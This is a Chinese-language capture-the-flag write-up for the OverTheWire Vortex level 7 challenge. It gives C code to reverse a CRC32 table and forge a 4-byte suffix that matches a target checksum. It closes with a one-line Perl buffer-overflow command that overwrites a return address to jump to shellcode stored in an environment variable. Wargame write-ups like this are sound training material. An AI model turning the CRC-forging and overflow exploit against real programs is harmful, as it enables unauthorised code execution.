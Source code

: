 ```yaml
---
title: vortex7
author: rk700
layout: post
redirect_from: /writeup/2014/07/09/vortex7
tags:
  - OverTheWire
  - exploit
---
```

这道题要求构造一个符合crc的输入来造成溢出。

关于CRC，[这里][1]有一篇详细的文章

为了reverse CRC，我们先找到所用的crc table在文件中的位置，然后将其dump出来：

<pre>$ hexdump -v -n 1024 -s 1504 vortex7 -e '"0x" 1/4 "%08x" ","' | fold -b44</pre>

此外，我们还需要根据最高位字符来构造reverse table。用下面的代码构造并打印reverse table

{% highlight c %}
int main (int argc, char *argv[]) {
    unsigned int *revTable = (unsigned int *)malloc(256*sizeof(unsigned int));
    size_t i;
    for(i=0; i<256; ++i) {
        unsigned int value = CRCTable[i];
        unsigned int top = (value >> 24);
        revTable[top] = i;
    }

    for(i=0; i<256; ++i) {
        printf("0x%02x,", revTable[i]);
    }
    return 0; 
}
{% endhighlight %}


然后我们有下面的代码，他会得到4bytes的patch，当patch加在argv[1]之后时，新的CRC值会变为我们需要的

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

unsigned int CRCTable[] = {
    0x00000000,0x77073096,0xee0e612c,0x990951ba,
    0x076dc419,0x706af48f,0xe963a535,0x9e6495a3,
    0x0edb8832,0x79dcb8a4,0xe0d5e91e,0x97d2d988,
    0x09b64c2b,0x7eb17cbd,0xe7b82d07,0x90bf1d91,
    0x1db71064,0x6ab020f2,0xf3b97148,0x84be41de,
    0x1adad47d,0x6ddde4eb,0xf4d4b551,0x83d385c7,
    0x136c9856,0x646ba8c0,0xfd62f97a,0x8a65c9ec,
    0x14015c4f,0x63066cd9,0xfa0f3d63,0x8d080df5,
    0x3b6e20c8,0x4c69105e,0xd56041e4,0xa2677172,
    0x3c03e4d1,0x4b04d447,0xd20d85fd,0xa50ab56b,
    0x35b5a8fa,0x42b2986c,0xdbbbc9d6,0xacbcf940,
    0x32d86ce3,0x45df5c75,0xdcd60dcf,0xabd13d59,
    0x26d930ac,0x51de003a,0xc8d75180,0xbfd06116,
    0x21b4f4b5,0x56b3c423,0xcfba9599,0xb8bda50f,
    0x2802b89e,0x5f058808,0xc60cd9b2,0xb10be924,
    0x2f6f7c87,0x58684c11,0xc1611dab,0xb6662d3d,
    0x76dc4190,0x01db7106,0x98d220bc,0xefd5102a,
    0x71b18589,0x06b6b51f,0x9fbfe4a5,0xe8b8d433,
    0x7807c9a2,0x0f00f934,0x9609a88e,0xe10e9818,
    0x7f6a0dbb,0x086d3d2d,0x91646c97,0xe6635c01,
    0x6b6b51f4,0x1c6c6162,0x856530d8,0xf262004e,
    0x6c0695ed,0x1b01a57b,0x8208f4c1,0xf50fc457,
    0x65b0d9c6,0x12b7e950,0x8bbeb8ea,0xfcb9887c,
    0x62dd1ddf,0x15da2d49,0x8cd37cf3,0xfbd44c65,
    0x4db26158,0x3ab551ce,0xa3bc0074,0xd4bb30e2,
    0x4adfa541,0x3dd895d7,0xa4d1c46d,0xd3d6f4fb,
    0x4369e96a,0x346ed9fc,0xad678846,0xda60b8d0,
    0x44042d73,0x33031de5,0xaa0a4c5f,0xdd0d7cc9,
    0x5005713c,0x270241aa,0xbe0b1010,0xc90c2086,
    0x5768b525,0x206f85b3,0xb966d409,0xce61e49f,
    0x5edef90e,0x29d9c998,0xb0d09822,0xc7d7a8b4,
    0x59b33d17,0x2eb40d81,0xb7bd5c3b,0xc0ba6cad,
    0xedb88320,0x9abfb3b6,0x03b6e20c,0x74b1d29a,
    0xead54739,0x9dd277af,0x04db2615,0x73dc1683,
    0xe3630b12,0x94643b84,0x0d6d6a3e,0x7a6a5aa8,
    0xe40ecf0b,0x9309ff9d,0x0a00ae27,0x7d079eb1,
    0xf00f9344,0x8708a3d2,0x1e01f268,0x6906c2fe,
    0xf762575d,0x806567cb,0x196c3671,0x6e6b06e7,
    0xfed41b76,0x89d32be0,0x10da7a5a,0x67dd4acc,
    0xf9b9df6f,0x8ebeeff9,0x17b7be43,0x60b08ed5,
    0xd6d6a3e8,0xa1d1937e,0x38d8c2c4,0x4fdff252,
    0xd1bb67f1,0xa6bc5767,0x3fb506dd,0x48b2364b,
    0xd80d2bda,0xaf0a1b4c,0x36034af6,0x41047a60,
    0xdf60efc3,0xa867df55,0x316e8eef,0x4669be79,
    0xcb61b38c,0xbc66831a,0x256fd2a0,0x5268e236,
    0xcc0c7795,0xbb0b4703,0x220216b9,0x5505262f,
    0xc5ba3bbe,0xb2bd0b28,0x2bb45a92,0x5cb36a04,
    0xc2d7ffa7,0xb5d0cf31,0x2cd99e8b,0x5bdeae1d,
    0x9b64c2b0,0xec63f226,0x756aa39c,0x026d930a,
    0x9c0906a9,0xeb0e363f,0x72076785,0x05005713,
    0x95bf4a82,0xe2b87a14,0x7bb12bae,0x0cb61b38,
    0x92d28e9b,0xe5d5be0d,0x7cdcefb7,0x0bdbdf21,
    0x86d3d2d4,0xf1d4e242,0x68ddb3f8,0x1fda836e,
    0x81be16cd,0xf6b9265b,0x6fb077e1,0x18b74777,
    0x88085ae6,0xff0f6a70,0x66063bca,0x11010b5c,
    0x8f659eff,0xf862ae69,0x616bffd3,0x166ccf45,
    0xa00ae278,0xd70dd2ee,0x4e048354,0x3903b3c2,
    0xa7672661,0xd06016f7,0x4969474d,0x3e6e77db,
    0xaed16a4a,0xd9d65adc,0x40df0b66,0x37d83bf0,
    0xa9bcae53,0xdebb9ec5,0x47b2cf7f,0x30b5ffe9,
    0xbdbdf21c,0xcabac28a,0x53b39330,0x24b4a3a6,
    0xbad03605,0xcdd70693,0x54de5729,0x23d967bf,
    0xb3667a2e,0xc4614ab8,0x5d681b02,0x2a6f2b94,
    0xb40bbe37,0xc30c8ea1,0x5a05df1b,0x2d02ef8d
};

unsigned int revTable[] = {
    0x00,0x41,0xc3,0x82,
    0x86,0xc7,0x45,0x04,
    0x4d,0x0c,0x8e,0xcf,
    0xcb,0x8a,0x08,0x49,
    0x9a,0xdb,0x59,0x18,
    0x1c,0x5d,0xdf,0x9e,
    0xd7,0x96,0x14,0x55,
    0x51,0x10,0x92,0xd3,
    0x75,0x34,0xb6,0xf7,
    0xf3,0xb2,0x30,0x71,
    0x38,0x79,0xfb,0xba,
    0xbe,0xff,0x7d,0x3c,
    0xef,0xae,0x2c,0x6d,
    0x69,0x28,0xaa,0xeb,
    0xa2,0xe3,0x61,0x20,
    0x24,0x65,0xe7,0xa6,
    0xea,0xab,0x29,0x68,
    0x6c,0x2d,0xaf,0xee,
    0xa7,0xe6,0x64,0x25,
    0x21,0x60,0xe2,0xa3,
    0x70,0x31,0xb3,0xf2,
    0xf6,0xb7,0x35,0x74,
    0x3d,0x7c,0xfe,0xbf,
    0xbb,0xfa,0x78,0x39,
    0x9f,0xde,0x5c,0x1d,
    0x19,0x58,0xda,0x9b,
    0xd2,0x93,0x11,0x50,
    0x54,0x15,0x97,0xd6,
    0x05,0x44,0xc6,0x87,
    0x83,0xc2,0x40,0x01,
    0x48,0x09,0x8b,0xca,
    0xce,0x8f,0x0d,0x4c,
    0x95,0xd4,0x56,0x17,
    0x13,0x52,0xd0,0x91,
    0xd8,0x99,0x1b,0x5a,
    0x5e,0x1f,0x9d,0xdc,
    0x0f,0x4e,0xcc,0x8d,
    0x89,0xc8,0x4a,0x0b,
    0x42,0x03,0x81,0xc0,
    0xc4,0x85,0x07,0x46,
    0xe0,0xa1,0x23,0x62,
    0x66,0x27,0xa5,0xe4,
    0xad,0xec,0x6e,0x2f,
    0x2b,0x6a,0xe8,0xa9,
    0x7a,0x3b,0xb9,0xf8,
    0xfc,0xbd,0x3f,0x7e,
    0x37,0x76,0xf4,0xb5,
    0xb1,0xf0,0x72,0x33,
    0x7f,0x3e,0xbc,0xfd,
    0xf9,0xb8,0x3a,0x7b,
    0x32,0x73,0xf1,0xb0,
    0xb4,0xf5,0x77,0x36,
    0xe5,0xa4,0x26,0x67,
    0x63,0x22,0xa0,0xe1,
    0xa8,0xe9,0x6b,0x2a,
    0x2e,0x6f,0xed,0xac,
    0x0a,0x4b,0xc9,0x88,
    0x8c,0xcd,0x4f,0x0e,
    0x47,0x06,0x84,0xc5,
    0xc1,0x80,0x02,0x43,
    0x90,0xd1,0x53,0x12,
    0x16,0x57,0xd5,0x94,
    0xdd,0x9c,0x1e,0x5f,
    0x5b,0x1a,0x98,0xd9
};

//start is the init CRC value
unsigned int computeCRC(unsigned int start, unsigned char *str, size_t len) {
    size_t i;
    for(i=0; i<len; ++i) {
        start = (start >> 8) ^ (CRCTable[(0xff & (start ^ str[i]))]);
    }
    return start;
}

unsigned int reverseCRC(unsigned int start, unsigned end) {
    unsigned char buf[8];
    unsigned int *pos = buf;

    *pos = start;
    *(pos+1) = end;

    int i = 0;
    for(i=0; i<4; ++i) {
        unsigned char topByte = buf[7-i];
        unsigned int idx = revTable[topByte];
        unsigned int value = CRCTable[idx];
        pos = buf + 4 - i;
        *pos = (*pos) ^ value;
        buf[3-i] = buf[3-i] ^ idx;
    }
    pos = buf;
    return *pos;
}

int main (int argc, char *argv[]) {
    if(argc != 3) {
        printf("usage: %s <string> <CRC>\n", argv[0]);
        return 0;
    }

    size_t len = strlen(argv[1]);
    char *cat = (char *)malloc(len+5);
    strncpy(cat, argv[1], len);

    //compute the current CRC
    unsigned int current = computeCRC(0, argv[1], len);
    printf("current is 0x%08x\n", current);
    unsigned int dest = (unsigned int)strtoul(argv[2], NULL, 16);
    printf("dest is 0x%08x\n", dest);

    //compute the patch
    unsigned int patch = reverseCRC(current, dest);
    unsigned char *patchChar = &patch;
    printf("patch is \\x%02x\\x%02x\\x%02x\\x%02x\n", patchChar[0], patchChar[1], patchChar[2], patchChar[3]);

    strncat(cat, patchChar, 4);

    unsigned int new = computeCRC(0, cat, len+4);
    printf("verify: new CRC is 0x%08x\n", new);
    return 0;
}
{% endhighlight %}


看反汇编，知道要覆盖完返回地址需要78bytes，在加上4bytes的patch共82bytes。将shellcode放到环境变量，得到其地址，然后可由上计算出patch。最后运行

<pre>$ /vortex/vortex7 `perl -e 'print "A"x74 . "\xf9\xd8\xff\xff" . "\x1c\xdd\x03\x32"'`</pre>


 [1]: http://www.woodmann.com/fravia/crctut1.htm "http://www.woodmann.com/fravia/crctut1.htm"